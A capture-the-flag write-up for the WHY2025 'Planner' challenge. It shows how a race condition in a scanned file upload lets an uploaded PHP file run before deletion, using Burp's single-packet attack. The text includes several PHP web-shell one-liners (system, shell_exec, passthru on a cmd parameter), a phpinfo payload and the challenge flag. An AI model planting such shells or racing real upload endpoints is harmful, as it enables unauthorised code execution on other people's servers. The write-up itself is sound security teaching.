

# WHY2025 Planner

## Description

> We at WHY2025 are a well oiled machine, this is because we have this awesome [planningtool](https://why2025planning.ctf.zone) we are developing, please check it out and add yourself to it!

## Solution

We register/login and find a planning tool. We can add bullet points, but there doesn't appear to be any HTMLi.



More importantly, we can upload a file. There is no filter on the file extension or content-type, but our file is deleted immediately after the scan. According to the JS source, the site is expecting JSON content.

```javascript
document.getElementById("uploadForm").addEventListener("submit", async function (e) {
    e.preventDefault();
    const formData = new FormData(this);
    const statusDiv = document.getElementById("uploadStatus");

    statusDiv.textContent = "Uploading and scanning file...";
    statusDiv.className = "";

    const response = await fetch("upload.php", {
        method: "POST",
        body: formData,
    });

    const text = await response.text();

    // Match multiple JSON objects: greedy split on outermost }
    const messages = text.match(/{[^}]+}/g);

    if (!messages) {
        statusDiv.textContent = "Invalid response.";
        statusDiv.className = "error";
        return;
    }

    statusDiv.innerHTML = ""; // clear previous output

    messages.forEach((rawJson) => {
        try {
            const data = JSON.parse(rawJson);
            const msg = document.createElement("div");
            msg.textContent = data.message;
            msg.className = data.status === "fail" || data.status === "deleted" ? "error" : "success";
            statusDiv.appendChild(msg);
        } catch (err) {
            const errDiv = document.createElement("div");
            errDiv.textContent = "Invalid JSON: " + rawJson;
            errDiv.className = "error";
            statusDiv.appendChild(errDiv);
        }
    });
});
```

However, even when sending a JSON file, the server says the file was deleted after scan (wrong type). I thought maybe we could fuzz file extensions/content-types, but then I remembered a Portswigger lab I solved in the past.

It was a race condition where users could upload files, but the file would be deleted quickly by the AV/firewall. If an attacker sent the file upload request at the same time as \[several\] requests to access the file, one of them might slip through before the file is deleted. For this, we need to know the location/filename. Luckily for us, this is already provided in the error feedback.

### Race Condition

To test the hypothesis, I created a group of tabs in burp repeater. The first uploaded a valid JSON file and the next ~10 would request the file. Sending the group of requests using the [last-byte sync (aka single packet attack)](https://portswigger.net/research/the-single-packet-attack-making-remote-race-conditions-local) would result in some of the responses showing the contents of the JSON file, while others showed a 404 not found error.

I switched the file type to a basic PHP shell, with the rest of the repeater tabs making a GET request to `/uploads/new.php?cmd=whoami`

```php
<?php system($_GET['cmd']); ?>
```

Unfortunately, all these requests came back with a 500 internal server error, or 404 not found. I changed the PHP file contents to a more benign one, and it worked (printed "meow").

```php
<?php echo("meow") ?>
```

I tried a few alternative functions for command execution.

```php
<?php system($_REQUEST["cmd"]); ?>
<?php echo shell_exec($_GET['cmd']); ?>
<? passthru($_GET["cmd"]); ?>
```

They all failed! Eventually I tried to view the `phpinfo()`

```php
<?php phpinfo(); ?>
```


When checking the responses, I see one with a 200 OK and long response body. Searching for "flag" reveals the correct flag 😎


Flag: `flag{1cdaf6ddac4je1a91a8dcb8e01llbfbb}`
